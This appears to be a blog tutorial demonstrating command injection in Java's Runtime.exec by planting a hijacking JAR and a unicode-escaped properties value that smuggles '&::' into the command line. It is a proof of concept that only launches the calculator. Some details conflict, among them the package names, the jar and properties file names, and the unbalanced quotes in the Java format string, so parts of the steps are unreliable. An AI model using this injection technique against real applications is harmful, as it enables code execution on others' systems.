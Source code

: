 ```yaml
---
layout: single
title: Command Injection in Runtime.exec via Java Properties and JAR Hijacking
date: 2023-12-11
classes: wide
tags:
  - java properties
  - command injection
  - jar hijacking
---
```


> In Java, Runtime.exec is often used to invoke a new process, but it does not invoke a new command shell, which means that chaining or piping multiple commands together does not usually work. Command injection is still possible if the process spawned with Runtime.exec is a command shell like command.com, cmd.exe, or /bin/sh.


The vulnerable code:

```
Runtime runtime = Runtime.getRuntime();
Properties properties = new Properties();

try (FileInputStream stream = new FileInputStream("app.properties")) {
    properties.load(stream);
}

String options = properties.getProperty("options", "");
String command = String.format("\"C:/Program Files/Java/jre1.8.0_111/bin/javaw\" -cp ".;./dependencies/*\" %s com.example.main.Example", new Object[] { options });

Process process = runtime.exec(command);
```

The configuration file.

```
options=
```

Save the following java code into a file named `Calc.java`. It is important to add the package at the beginning of the file.

```
package injection;

import java.io.IOException;

public class Calc {

    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc");
    }
}
```

Compile the source code. The `-d .` makes the compiler create the defined directory structure.

```
javac -d . Calc.java
```

When packaging the `.jar` file, you need to instruct the jar routine on how to pack it. Here I use the option set `cvfeP`. This is to keep the package structure (option `P`), specify the entry point so that the manifest file contains meaningful information (option `e`). Option `f` lets you specify the file name, option `c` creates an archive and option `v` sets the output to verbose. The important things to note here are `P` and `e`.

Next, follow the command with the name of the jar (test.jar) and the entry point.

Lastly, use `-C . <packagename>/` to get the class files from the specified folder, preserving the folder structure.

```
jar cvfeP calc.jar .Calc -C . injection/
```

Open the calc.jar file in a zip program. It should have the following structure:

```
META-INF
| MANIFEST.MF
injection
| Calc.class
```

The `MANIFEST.MF` should contain the following:

```
Manifest-Version: 1.0
Created-By: <JDK Version> (Oracle Corporation)
Main-Class: amatas.Calc
```

If you edit your manifest by hand, be sure to keep the newline at the end otherwise java doesn't recognize it.

Place `calc.jar` into the `/dependencies` directory of the target application.

Add the following property to the `application.properties` file of the application:

```
options=injection.Calc\u0020\u0026\u003A\u003A\u0020
```

Run the target application and observe that the calculator application will open instead of the intended source.

Below is the value that had entered the `exec` function.

```
"C:/Program Files/Java/jre1.8.0_111/bin/javaw" -cp ".;./dependencies/*\" injection.Calc &:: com.example.main.Example
```

## References

- [https://wiki.owasp.org/index.php/Command_injection_in_Java](Command injection in Java)
